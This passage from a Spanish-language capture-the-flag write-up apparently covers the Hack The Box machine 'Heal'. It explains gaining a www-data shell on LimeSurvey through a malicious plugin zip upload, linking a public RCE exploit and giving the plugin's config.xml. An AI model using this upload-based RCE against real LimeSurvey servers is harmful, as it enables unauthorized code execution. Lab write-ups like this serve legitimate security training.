 <h3>Shell como www-data:</h3>

tambien es segunda vez que vemos esa fecha, la cual es bastante desactualizada, investigando vulnerabilidades hay una para la ejecución remota de comandos reportada para la versión 5.2.4 pero buscando la version de este,  y vulnerabilidades especificas para esta versión (que la versión de este la encontramos en:http://take-survey.heal.htb/index.php/admin/globalsettings/sa/surveysettings ) tenemos:

<https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE>

al parecer es una carga maliciosa de un archivo zip, normalmente este tipo de vulnerabilidades se da en la carga de temas o plantillas y tenemos en la pagina una opción de carga de plugins:

<img src='/images/writeup-heal/Pasted image 20250511124125.png'>

necesitamos 2 archivos:

config.xml:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>3vilsec</name>
        <type>plugin</type>
        <creationDate>2025-01-13</creationDate>
        <lastUpdate>2025-01-13</lastUpdate>
        <author>3vilsec</author>
        <authorUrl>https://github.com/N4s1rl1</authorUrl>
        <supportUrl>https://github.com/N4s1rl1</supportUrl>
        <version>6.6.4</version>
        <license>GNU General Public License version 3 or later</license>
        <description>
		<![CDATA[Author : 3vilsec :D ]]></description>
    </metadata>

    <compatibility>
        <version>6.0</version>
        <version>5.0</version>
        <version>4.0</version>
        <version>3.0</version>
    </compatibility>
```
